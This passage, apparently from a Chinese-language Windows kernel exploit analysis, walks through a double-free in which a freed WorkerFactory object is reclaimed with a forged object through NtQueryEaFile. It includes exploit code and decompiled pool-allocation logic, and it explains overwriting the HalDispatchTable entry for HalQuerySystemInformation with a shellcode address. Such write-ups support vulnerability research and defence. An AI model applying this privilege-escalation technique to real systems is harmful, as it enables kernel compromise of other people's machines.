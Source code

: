 可以看到 WrokerFactory 对象的大小为 0xA0, 其分配的内存区域的 POOL_TYPE 为 0， 即 NonPagedPool。

 

继续进一步分析 ExAllocatePoolWithQuotaTag 函数调用：

```
PVOID __stdcall ExAllocatePoolWithQuotaTag(POOL_TYPE PoolType, SIZE_T NumberOfBytes, ULONG Tag) 
{ 
  v3 = PoolType; 
  ………… 
  if ( (PoolType & 8) != 0 ) 
  { 
    ………… 
    v3 = PoolType & 0xFFFFFFF7; 
  } 
  ………… 
  v5 = v3 + 8; 
  ………… 
  // sizof(WorkFactoryObject) == 0xA0 < 0xFF4 
  if ( NumberOfBytes > 0xFF4 || Process == PsInitialSystemProcess ) 
    v5 = (unsigned __int8)v5 - 8; 
  else 
    NumberOfBytes += 4; 
// 貌似POOL_TYPE是8的情况下， 也会在NonPagedPool分配内存
  PoolWithTag = (char *)ExAllocatePoolWithTag((POOL_TYPE)v5, NumberOfBytes, Tag); 
  ………… 
}
```

发现 EaListLength 会被 + 4 然后作为分配内存的长度， 因此我们如果想得到同一块内存， 在调用 NtQueryEaFile 的时候， EaListLength 需要是 0xA0 - 4, 下面是 Exploit 的对应代码 (参考 2)：

```
//创建WorkerFactory对象 
DWORD Status = MyNtCreateWorkerFactory(&hWorkerFactory, GENERIC_ALL, NULL, hCompletionPort, (HANDLE)-1, NULL, NULL, 0, 0, 0); 
 
// 第二次释放  释放掉的内存是 WorkerFactory Object 
DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x10, NULL, 0, NULL, NULL); 
 
// 现在把伪造的对象拷贝到释放掉的内存, NtQueryEaFile 内部会再次申请到上面释放掉的内存 
IO_STATUS_BLOCK IoStatus; 
MyNtQueryEaFile(INVALID_HANDLE_VALUE, &IoStatus, 0, 0, 0, WorkerFactory, 0xA0 - 0x4, 0, 0);
```

#### 小节 1

上面讲了这么多， 其实就是为了解决两个问题：

```
如何获取 HalQuerySystemInformation 函数的存储地址？
在获取到1中地址后， 如何向这个地址写入我们Shellcode的地址？
```

我们通过 LoadLibrary 和 GetProcAddress 得到了 HalDispatchTable 的地址， 然后利用 NtQueryEaFile 函数伪造一个 WorkerFactory 对象从而构造写原语， 利用构造的写原语覆盖了系统原本的 HalQuerySystemInformation 调用为我们 Shellcode 函数的地址。
